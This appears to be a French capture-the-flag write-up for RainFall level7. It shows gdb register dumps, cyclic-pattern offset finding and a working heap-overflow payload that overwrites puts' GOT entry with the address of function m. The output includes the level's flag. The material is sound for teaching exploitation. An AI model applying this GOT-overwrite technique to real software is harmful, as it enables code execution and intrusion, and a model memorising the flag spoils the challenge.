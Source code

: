 # Solution

```
./level7 $(python -c 'print("A" * 20 + "\x28\x99\x04\x08")') $(python -c 'print("\xf4\x84\x04\x08")')
```

## Description du code

En observant le code source on peu constater que des pointeur on ete malloc et ensuite strcpy est utiliser sans verifier la taille de ce qui est copier.
La fonction m affiche une variable global c dans laquel le .pass est stocker apres l'appel de fgets.
On va donc pouvoir cree un overflow et utiliser une vulnérabilité.

## Test

--------------------------------------
Quelque test :
```
test1 :
level7@RainFall:~$ ./level7 AAA aaa
~~

test2 :
level7@RainFall:~$ ./level7 $(python -c 'print("A" * 200)') $(python -c 'print("BBB")')
Segmentation fault (core dumped)

test3 :
level7@RainFall:~$ ./level7 $(python -c 'print("A")') $(python -c 'print("BBB" * 200)')
~~

test4 :
level7@RainFall:~$ ./level7 $(python -c 'print("A")') $(python -c 'print("BBB" * 20000)')
~~
```
--------------------------------------
Analyse des registre :

Apres les test on peu voir que seulement av[1] overflow sur des donnée critique.
On va analiser les registres lors de l'overflow :
```
level7@RainFall:~$ gdb ./level7
(gdb) run $(python -c 'print("A" * 200)') $(python -c 'print("BBB")')
Starting program: /home/user/level7/level7 $(python -c 'print("A" * 200)') $(python -c 'print("BBB")')

Program received signal SIGSEGV, Segmentation fault.
0xb7eb8f42 in ?? () from /lib/i386-linux-gnu/libc.so.6
(gdb) 

(gdb) info register
eax            0x424242	4342338
ecx            0xbffff909	-1073743607
edx            0x41414141	1094795585
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff63c	0xbffff63c
ebp            0xbffff668	0xbffff668
esi            0x0	0
edi            0x0	0
eip            0xb7eb8f42	0xb7eb8f42
eflags         0x210246	[ PF ZF IF RF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51

(gdb) disassemble main
Vue sur l'appel du deuxieme strcpy
(...)
   0x080485bd <+156>:	call   0x80483e0 <strcpy@plt>
   0x080485c2 <+161>:	mov    $0x80486e9,%edx
   0x080485c7 <+166>:	mov    $0x80486eb,%eax
   0x080485cc <+171>:	mov    %edx,0x4(%esp)
   0x080485d0 <+175>:	mov    %eax,(%esp)
(...)
```
eax contient notre av[2] et notre overflow a ecrasé eax, et que l'on ecrase pas eip.
On peu en conclure ceci :

- eip ne sera pas utile cette fois ci pas de ret to libc 
- edx est ecrasé et sert contient l'argument 1 du second strcpy
- eax lui contient l'argument numero 2 du second strcpy

--------------------------------------

## Description de l'exploit

On va pouvoir utiliser une vulnerabilité appeler "heap overflow".
Le principe sera d'ecraser l'argument 1 du second strcpy par l'adresse de puts, et de mettre l'adresse de m dans le second argument, 
afin que l'adresse de m sois copier dans l'adresse de puts ce qui va permettre de lancer m a la place de puts.
Comme puts est une fonction de la libc il faudra recuper don adresse dans la GOT.

-----------------
D'abord recuperons le critical offset lorsque l'on ecrase edx :

(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A BBBB
Starting program: /home/user/level7/level7 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A BBBB

Breakpoint 1, 0x08048524 in main ()
(gdb) n
Single stepping until exit from function main,
which has no line number information.

Program received signal SIGSEGV, Segmentation fault.
0xb7eb8f52 in ?? () from /lib/i386-linux-gnu/libc.so.6
(gdb) info register
eax            0x42424242	1111638594
ecx            0xbffff908	-1073743608
edx            0x37614136	929120566
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff69c	0xbffff69c
ebp            0xbffff6c8	0xbffff6c8
esi            0x0	0
edi            0x0	0
eip            0xb7eb8f52	0xb7eb8f52
eflags         0x210246	[ PF ZF IF RF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51


0x37614136 -> ASCII + REVERSE -> 6Aa7

6Aa7 = 20 

-----------------

Adresse de m :
```
(gdb) p &m
$1 = (<text variable, no debug info> *) 0x80484f4 <m>
```
-----------------

AGOT adresse de puts :

```
(gdb) info function puts
All functions matching regular expression "puts":

Non-debugging symbols:
0x08048400  puts
0x08048400  puts@plt
0xb7e911a0  _IO_fputs
0xb7e911a0  fputs
0xb7e927e0  _IO_puts
0xb7e927e0  puts
0xb7e96ee0  fputs_unlocked
0xb7f20750  putspent
0xb7f21fa0  putsgent

(gdb) x/i 0x08048400
   0x8048400 <puts@plt>:	jmp    *0x8049928
```
-----------------
## Payload

GOT adress of puts : 0x08049928
Adress of m : 0x080484f4
Critical Offset : 20
```
level7@RainFall:~$ ./level7 $(python -c 'print("A" * 20 + "\x28\x99\x04\x08")') $(python -c 'print("\xf4\x84\x04\x08")')

5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1713690987
```
